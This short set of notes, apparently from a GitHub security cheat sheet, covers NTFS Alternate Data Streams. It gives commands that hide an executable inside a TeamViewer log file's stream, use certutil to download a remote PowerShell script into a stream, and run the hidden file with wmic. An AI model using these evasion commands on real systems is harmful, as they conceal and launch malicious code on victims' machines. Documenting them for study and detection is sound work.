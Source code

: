 ### Alternate Data Streams:
- File on NTFS formatted drive has 2 streams:
  - Data stream: default stream - contains data
  - Resource stream: used for metadata
  - This is useful to hiding file
- Write to ADS
  -  `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe" `
- Download directly into ADS
  -  `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
- Executing from ADS
  - `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  - NOTE: full path
- There are many other methods to add and execute
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f




